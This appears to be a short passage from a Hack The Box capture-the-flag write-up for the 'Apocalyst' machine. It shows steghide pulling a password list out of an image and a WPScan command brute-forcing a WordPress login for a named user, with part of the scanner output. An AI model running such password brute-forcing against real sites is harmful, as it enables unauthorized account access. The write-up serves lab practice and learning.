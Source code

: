 ## http://apocalyst.htb/Rightiousness/

![](image.jpg)

## steghide

```
# steghide extract -sf image.jpg
Entrez la passphrase: 
�criture des donn�es extraites dans "list.txt".
```

## WPScan to brute force


```
# wpscan --url http://10.10.10.46 --passwords /root/htb/YoloToolbox/machines/htb/apocalyst/list.txt --usernames 'falaraki' --wp-content-dir /
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.3.1
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://10.10.10.46/
[+] Started: Sun Sep 22 01:50:35 2019
.....

[+] Enumerating All Plugins

[i] No plugins Found.
```